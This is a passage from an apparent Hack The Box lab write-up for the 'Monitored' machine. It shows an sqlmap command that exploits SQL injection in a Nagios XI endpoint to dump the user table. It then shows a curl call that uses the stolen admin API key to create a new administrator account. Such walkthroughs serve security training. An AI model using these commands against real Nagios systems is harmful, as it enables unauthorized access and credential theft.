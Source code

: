 ```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=qfpqtsc2rttelaoe0o7kofo3fs" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Nice, SQL map exploited the injection for us and we now have the nagiosadmin hash and API key:

![monitored_admin_api_key.png](../assets/monitored_assets/monitored_admin_api_key.png)

We can now create a new user with admin privileges:

```
┌──(ryan㉿kali)-[~/HTB/Monitored]
└─$ curl -k --silent "http://nagios.monitored.htb/nagiosxi/api/v1/system/user&apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=testing&password=password&name=testing&email=test@localhost&auth_level=admin"
{"success":"User account testing was added successfully!","user_id":6}
```

I can then login with my created credentials, accept the ToS, update my password, and access the dashboard, this time with admin privileges:

![monitored_in2.png](../assets/monitored_assets/monitored_in2.png)

